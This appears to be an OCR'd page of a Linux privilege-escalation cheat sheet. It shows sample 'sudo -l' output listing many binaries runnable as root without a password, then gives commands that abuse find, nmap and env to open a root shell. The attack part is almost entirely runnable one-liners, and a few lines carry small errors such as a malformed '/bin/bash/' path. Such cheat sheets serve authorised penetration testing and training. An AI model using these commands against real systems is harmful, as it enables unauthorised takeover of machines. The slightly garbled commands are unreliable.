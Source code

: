 Sudo -l 

What binaries can we execute with Sudo?

Example Output

User www-data may run the following commands on <hostname>

- (root) NOPASSWD: /usr/bin/find
- (root) NOPASSWD: /usr/bin/nmap
- (root) NOPASSWD: /usr/bin/env
- (root) NOPASSWD: /usr/bin/vim
- (root) NOPASSWD: /usr/bin/awk
- (root) NOPASSWD: /usr/bin/perl
- (root) NOPASSWD: /usr/bin/python
- (root) NOPASSWD: /usr/bin/less
- (root) NOPASSWD: /usr/bin/man
- (root) NOPASSWD: /usr/bin/ftp
- (root) NOPASSWD: /usr/bin/socat
- (root) NOPASSWD: /usr/bin/zip
- (root) NOPASSWD: /usr/bin/gcc
- (root) NOPASSWD: /usr/bin/docker
- (root) NOPASSWD: /usr/bin/env
- (root) NOPASSWD: /usr/bin/MySQL
- (root) NOPASSWD: /usr/bin/ssh
- (root) NOPASSWD: /usr/bin/tmux
- (root) NOPASSWD: /usr/bin/pkexec
- (root) NOPASSWD: /usr/bin/rlwrap
- (root) NOPASSWD: /usr/bin/xargs
- (root) NOPASSWD: /usr/bin/anansi_util
- (root) NOPASSWD: /usr/bin/apt-get
- (root) NOPASSWD: /usr/bin/flask run
- (root) NOPASSWD: /usr/bin/apache2
- (root) NOPASSWD: /usr/bin/wget


Absuing Sudo binaries to gain root
----------------------------------------------------
Find
```
sudo find / etc/passwd -exec /bin/bash \;
```
```
sudo find /home -exec /bin/bash \;
```

Nmap
```
echo "os.execute('/bin/bash/')" > /tmp/shell.nse && sudo nmap --script=/tmp/shell.nse
```
```
$ sudo nmap --interactive
> !sh
```

Env
```
sudo env /bin/bash
```
